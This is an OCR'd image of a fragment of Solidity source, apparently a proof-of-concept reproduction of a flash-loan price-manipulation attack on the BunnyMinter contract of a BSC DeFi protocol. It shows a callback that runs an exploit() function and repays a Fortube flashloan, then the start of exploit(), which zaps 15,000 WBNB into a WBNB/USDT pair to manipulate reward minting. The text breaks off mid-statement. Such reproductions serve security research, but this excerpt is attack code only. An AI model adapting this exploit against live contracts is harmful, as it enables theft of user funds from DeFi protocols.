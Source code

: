 │                                                                                                                                                                                                                                                       │
│         // *Actual exploit*                                                                                                                                                                                                                           │
│         exploit();                                                                                                                                                                                                                                    │
│                                                                                                                                                                                                                                                       │
│         // Start repaying flashloans                                                                                                                                                                                                                  │
│         emit log_string("Repaying flashloans...");                                                                                                                                                                                                    │
│                                                                                                                                                                                                                                                       │
│         // Repay fortube flashloan                                                                                                                                                                                                                    │
│         uint256 usdtOwed = amount + fee;                                                                                                                                                                                                              │
│         IERC20(USDT).transfer(FortubeBank.controller(), usdtOwed);                                                                                                                                                                                    │
│     }                                                                                                                                                                                                                                                 │
│     function exploit() public {                                                                                                                                                                                                                       │
│         uint256 wbnbAmount = IERC20(WBNB).balanceOf(address(this)) - 15_000e18;                                                                                                                                                                       │
│                                                                                                                                                                                                                                                       │
│         // Manipulate BunnyMinter._zapAssetsToBunnyBNB - deposit liquidity                                                                                                                                                                            │
│         IERC20(WBNB).approve(address(zap), type(uint256).max);                                                                                                                                                                                        │
│         zap.zapInToken(WBNB, 15_000e18, address(WBNBUSDTv2));                                                                                                                                                                                         │
│         uint256 attackerLPBalance = IERC20(address(WBNBUSDTv2)).balanceOf(                                                                                                                                                                            │
│             address(this)                                                                                                                                                                                                                             │
│         );                                                                                                                                                                                                                                            │
│         IERC20(address(WBNBUSDTv2)).transfer(                                                                                                                                                                                                         │